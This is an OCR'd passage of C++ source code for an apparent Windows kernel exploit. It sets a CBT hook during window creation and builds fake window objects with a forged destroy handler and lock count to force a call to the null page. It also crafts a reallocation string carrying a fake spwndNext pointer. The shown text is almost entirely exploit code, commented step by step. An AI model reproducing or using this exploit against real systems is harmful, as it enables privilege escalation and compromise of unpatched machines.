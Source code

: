         // we set the hook where we will say that the win2 is the parrent
        hhk = SetWindowsHookEx(5, CBT_exploit, NULL, GetCurrentThreadId());

        // we create the window, all the exploit is during creation
        win = CreateWindowEx(WS_EX_LEFT, "MyWinClass", "Test title", WS_TILEDWINDOW, 0, 0, 200, 200,
            NULL, NULL, hInst, NULL);

        // we check that everything as been going fine
        if (!win)
        {
            std::cout << "An error occur during the creation and the exploit : "
                << GetLastError() << std::endl;
            exit (0);
        }

        // we unset the hook for the next creation
        UnhookWindowsHookEx(hhk);

        // we put the addr to decrement to 0 because if we relink
        // the value we went to decrement could change
        changeaddrdecr(0);
    }

    void callnull(HINSTANCE hInst, int addrdecr)
    {
        HHOOK hhk;
        HWND tmp1;
        HWND tmp2;

        // here we will need two fake windows, the second is the one we will
        // be decrement and will be use to call null
        FakeWin = functionallocate();
        FakeWin2 = allocatefun();
        FakeWin = (char *)FakeWin + 0x64; // adding something for not having a double 0

        std::cout << "Fake Win : " << std::hex << FakeWin << std::endl;
        std::cout << "Fake Win 2 : " << std::hex << FakeWin2 << std::endl;

        ((int *)FakeWin)[1] = 0;

        // we put the addr to decrement as our second false window
        ((int *)FakeWin)[12] = (int)FakeWin2;

        // we set the handler for our fake window as the one we have modify
        ((int *) FakeWin2)[0] =  (int) destroy;
        // we set the clock obj to 1, as it will be set to 0 it will call the
        // destroying function for the type associate and so call the null page
        ((int *) FakeWin2)[1] =  1;

        // we create the string for the reallocation
        for (int i = 0; i < 82; i++)
            str[i] = 'a';
        str[81] = '\0';
        // the address for the spwndNext
        str[0x2c / 2] = (char) (((int) FakeWin) & 0xff);
        str[0x2c / 2 + 1] = (char) (((int) FakeWin >> 16) & 0xff);

